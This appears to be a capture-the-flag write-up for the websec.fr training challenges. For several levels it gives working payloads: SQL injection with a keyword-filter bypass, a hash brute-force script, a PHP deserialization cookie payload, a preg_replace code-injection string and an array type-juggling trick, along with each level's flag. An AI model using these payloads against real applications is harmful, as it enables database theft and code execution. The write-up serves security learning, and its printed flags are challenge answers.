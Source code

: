 **[Level01](http://websec.fr/level01/)**  
Using GROUP_CONCAT
```
-1 UNION SELECT 'a', GROUP_CONCAT(password) FROM users;--
```
```
WEBSEC{Simple_SQLite_Injection}
```
**[Level02](http://websec.fr/level02/)**  
It's same Level01 but filtered by the application using preg_replace()
```
$searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
$injection = preg_replace ('/' . $searchWords . '/i', '', $injection);
```
It replace 'union', 'order', 'select', 'from', 'group', 'by' to '', so we try
```
-1 UUNIONNION SSELECTELECT 'a', GGROUPROUP_CONCAT(password) FFROMROM users;--
```
```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```
**[Level03](http://websec.fr/level03/)**  
It's using <i>password_hash</i> and <i>password_verify</i>, but the hash string is special, it start with <i>7c00</i> and it use sha1 with <i>fa1se</i> instead of <i>false</i>, so the function will return raw 20 character binary format
```
import hashlib
import string
i = 0;
while True:
    hash_object = hashlib.sha1(str(i).encode('utf-8')).hexdigest()
    if (hash_object.startswith("7c00")):
        print(i)
        break
    i = i + 1
```
```
WEBSEC{Please_Do_not_combine_rAw_hash_functions_mi}
```

**[Level04](http://websec.fr/level04/)**  
We can Deserialization by create same class
```
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
$newSQL = new SQL();
$newSQL->query = "SELECT password AS username FROM users"; // because it take $row['username']
echo base64_encode (serialize($newSQL));
?>
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIjtzOjQ6ImNvbm4iO047fQ
```
Change cookie <i>leet_hax0r</i> we got
```
WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```

**[Level05](http://websec.fr/level05/)**  
It use preg_replace, so we try to include 'flag.php'
http://websec.fr/level05/index.php?a=flag.php
```
%24%7Binclude_once%09%24_GET%5Ba%5D%7D+%24%7Bflag%7D
```
```
WEBSEC{Writing_a_sp3llcheckEr_in_php_aint_no_fun}
```

**[Level17](http://websec.fr/level17/)**  
Notice that strcasecmp will return Null if 1 parameter is an array, so we try
```
flag[]=a&submit=Go
```
```
WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}
```
